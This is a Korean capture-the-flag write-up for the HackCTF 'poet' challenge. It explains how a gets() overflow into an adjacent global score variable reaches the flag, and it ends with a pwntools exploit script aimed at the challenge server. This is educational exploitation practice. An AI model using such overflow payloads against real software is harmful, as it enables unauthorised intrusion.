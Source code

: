 ```yaml
---
layout: post
title:  "HackCTF poet write-up"
date:   2020-01-10 19:45:55
image:  hackctf_poet.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled.png)  
NX 비트가 걸려있다.  따라서 메모리 영역의 쓰기 권한이 없다
<br>
 
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%201.png)  
프로그램을 실행시키면 다음과 같은 문구가 나온다  
<br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%202.png)  
멀 입력하라고 나온다. 문제로 봤을때 1000000점을 획득해야 되는 것 같다
- **main**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%203.png)

- **get_poem**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%204.png)

<br>
메인 함수를 보면 while문 안에 get_poem(), get_author(), rate_poem() 함수가 있다.  
<br><br>
get_poem 함수에서 처음 입력을 받게 되고, poem 이라는 변수에 저장을 하게 된다. poem 변수는 전역변수인 듯 하다


- **rate_poem()**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%205.png)

- **<et_author**  
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%206.png)


get_author 함수에서 두번째로 입력을 받는다. unk_6024A0 이라는 변수에 입력을 받는데, 이역시 전역변수이다

rate_poem() 함수에서 점수를 계산하는 로직이 존재하는데, 일정 조건에 맞아야지 dwor_6024E0 이라는 변수에 100씩 저장하게 된다. 이 변수 역시 전역 변수이고 메인문에서 1,000,000 와 비교하는 비교대상이다.

따라서 dwor_6024E0  변수 값을 알맞게 조정해주면 될 것이다. 그래야 while을 탈출하여 reward 함수가 실행되게 될것이고 그곳에서 flag를 확인 가능하다  

<br><br>

### 2. 접근방법

느낌상 해당 조건문에 맞게 하나씩 값을 노가다로 넣는 것을 아닐 것이고, gets 함수의 bof를 이용하여 조건에 맞게 수정해주면된다

- 필요 값들
    1. **dwor_6024E0**  : 비교 대상  
        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%207.png)

    2. **unk_6024A0 :** 입력한 값이 들어가는 곳  
        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%208.png)
        
<br>
따라서 unk_6024A0에서 bof를 이용하여  dwor_6024E0 값을 변경하면 된다  
두 주소의 차이는 64이기때문에, "A"*64+1,000,000 이렇게 입력해주면 되는 간단한 문제이다
<br><br><br><br>


### 3. 풀이

최종 익스 코드는 다음과 같다
```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3012)
#p = process("./poet")
#gdb.attach(p)

p.recvuntil("> ")

payload = "A"*10

p.sendline(payload)

p.recvuntil("> ")

payload2 = "B"*64
payload2 += p64(1000000)

p.sendline(payload2)

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

처음에 strcpy 함수가 보여서 이를 이용하려고 했으나, 복사하려는 값의 배열크기가 충분하지 않아서 실패하였다. 문제와 변수 크기 이런것을 주의깊게 보면서 풀어야 할 것 같다
